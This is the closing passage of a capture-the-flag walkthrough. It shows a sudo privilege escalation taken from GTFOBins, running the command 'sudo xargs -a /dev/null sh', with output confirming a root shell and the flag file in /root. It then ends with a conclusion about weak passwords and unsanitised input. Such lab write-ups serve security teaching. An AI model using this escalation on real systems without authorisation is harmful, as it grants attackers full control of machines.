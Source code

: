 GTFOBins successfully gives us a way to exploit this sudo right to obtain a root shell using the xargs command.
```bash
sudo xargs -a /dev/null sh
id 
uid=0(root) gid=0(root) groups=0(root)
ls /root
root.txt
```
Great, we have obtained a root shell on the machine we can use this access to read the flag as seen above.

## Conclusion
Congratulations! In this walkthrough, you have deepened your understanding of password attacks against password-protected documents and exploited a web page that does not sanitise user input before execution. This machine was designed to show how the use of weak passwords and improper sanitisation of user input can greatly affect the security posture of an organisation. Thank you for following up on this walkthrough.







